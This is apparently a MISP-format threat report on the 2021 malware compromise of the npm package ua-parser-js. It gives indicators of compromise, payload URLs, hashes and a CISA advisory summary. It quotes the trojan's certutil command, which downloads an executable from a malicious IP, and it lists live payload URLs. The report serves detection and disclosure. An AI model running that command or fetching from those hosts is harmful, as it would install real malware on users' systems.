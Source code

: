 # Threat Report: 2021-10-24: Malware Discovered in Popular NPM Package, ua-parser-js


## Key Intelligence
* Date: 2021-10-24
* Threat Level: 2 (Medium)
* Tags: type:OSINT, osint:lifetime="perpetual", osint:certainty="50", tlp:white, misp-galaxy:mitre-attack-pattern="Compromise Software Supply Chain - T1195.002", misp-galaxy:mitre-attack-pattern="Compromise Software Dependencies and Development Tools - T1195.001"

---

## Indicators of Compromise (IOCs)
### Artifacts dropped
* sha256: <sha256> — sdd.dll
* sha256: <sha256> — jsextension.exe

### External analysis
* link: https://github.com/advisories/GHSA-pjwm-rvh2-c87w
* link: https://github.com/faisalman/ua-parser-js/issues/536

### Network activity
* domain: citationsherbe.at

### Payload delivery
* url: http://159.148.186.228/download/jsextension.exe
* url: https://citationsherbe.at/sdd.dll

## Objects
### report — Metadata used to generate an executive level report
* [External analysis] link: https://us-cert.cisa.gov/ncas/current-activity/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js
* [Other] text: Versions of a popular NPM package named ua-parser-js was found to contain malicious code. ua-parser-js is used in apps and websites to discover the type of device or browser a person is using from User-Agent data. A computer or device with the affected software installed or running could allow a remote attacker to obtain sensitive information or take control of the system. 

CISA urges users and administers using compromised ua-parser-js versions 0.7.29, 0.8.0, and 1.0.0 to update to the respective patched versions: 0.7.30, 0.8.1, 1.0.1   

For more information, see Embedded malware in ua-parser-js.
* [Other] text: Alert

### command-line — Command line and option related to a software malicious or not to execute specific commands.
* [Other] text: certutil -rulcache -f http://159.148.186.228/download/jsextension.exe jsextension.exe
* [Other] text: The trojan try to execute in the cmd

### command-line — Command line and option related to a software malicious or not to execute specific commands.
* [Other] text: npm show ua-parser-js time
* [Other] text: To check the time when the package was installed

### domain-ip — A domain/hostname and IP address seen as a tuple in a specific time frame.
* [Network activity] domain: citationsherbe.at
* [Network activity] ip-dst: 95.213.165.20

### domain-ip — A domain/hostname and IP address seen as a tuple in a specific time frame.
* [Network activity] ip-dst: 159.148.186.228

### file — File object describing a file with meta-information
* [Payload installation] pattern-in-file: ua-parser-js

### file — File object describing a file with meta-information
* [Artifacts dropped] md5: <md5> — sdd.dll
* [Artifacts dropped] sha1: <sha1> — sdd.dll
* [Artifacts dropped] sha256: <sha256> — sdd.dll

### virustotal-report — VirusTotal report
* [Other] datetime: 2021-10-24T04:03:55+00:00 — sdd.dll
* [External analysis] link: https://www.virustotal.com/gui/file/2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd/detection/f-2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd-1635048235 — sdd.dll
* [Artifacts dropped] text: 23/50 — sdd.dll
